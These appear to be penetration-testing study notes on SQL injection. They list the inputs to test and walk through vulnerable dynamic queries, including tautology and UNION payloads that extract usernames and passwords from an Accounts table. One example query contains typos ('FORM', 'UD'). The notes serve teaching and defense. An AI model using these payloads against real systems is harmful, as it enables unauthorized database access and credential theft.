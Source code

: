 ### SQL Injections

They allow an unauthorized user to take control over SQL statements used by a web application. This kind of attack has a huge impact on a web site because getting control over a backend database means controlling:

* User's credentials
* Data of the web application
* Credit Card numbers
* Shopping transactions

To find SQL injections, we need to check any user input \(every input must be tested to conduct a professional pentest\):

* GET parameters
* POST parameters
* HTTP Headers
  * User-Agent
  * Cookie
  * Accept

Tests can be:

* String terminators: `' and ''`
* SQL commands: `SELECT`, `UNION` and others
* SQL comments: `#` or `--`

### SQL basics

```sql
-- SELECT <columns list> FROM <table> WHERE <conditions>;
SELECT name, description FROM products WHERE id=9;

-- UNION command performs a union between
<SELECT statement> UNION <other SELECT statement>;
```

### =&gt; Vulnerable Dynamic Queries

```sql
-- This dynamic query expects $id values as a string:
SELECT Name, Description FROM Products WHERE ID='$id'

-- But what if an attacker crafts a $id value which can change the query to something like ` OR 'a'='a` then the query becomes:
SELECT Name, Description FORM Products WHERE UD='' OR 'a'='a';
-- ...which tells the database to select the items by checking two conditions which is always true.

-- An attacker could also exploit the UNION command by supplying the following:
-- ' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a
-- Thus it changes the original query to:

SELECT Name, Description FROM Products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a';
```
